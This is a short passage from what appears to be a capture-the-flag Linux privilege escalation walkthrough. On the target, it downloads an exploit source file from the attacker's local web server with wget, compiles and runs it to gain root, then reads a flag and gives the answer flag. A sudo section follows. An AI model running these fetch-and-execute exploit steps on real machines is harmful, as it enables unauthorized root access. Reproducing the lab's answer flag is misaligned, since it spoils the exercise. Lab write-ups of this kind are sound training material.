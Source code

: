 - In target machine (AttackBox):

```bash
mktemp -d
cd /tmp/tmp.xxxxxxx
wget http://<your_local_linux_ip>:8000/osf.c
gcc ./osf.c -o pwned
./pwned
```

- Now we have had access to root:

```bash
id
cd /home/matt
cat flag1.txt
```

![Guide image](./screenshots/linux-pri-esc-7.png)

**=> Answer: `THM-28392872729920`**

### 6. Privilege Escalation: Sudo

- How many programs can the user "karen" run on the target system with sudo rights?<br />

```bash
sudo -l
```

![Guide image](./screenshots/linux-pri-esc-8.png)
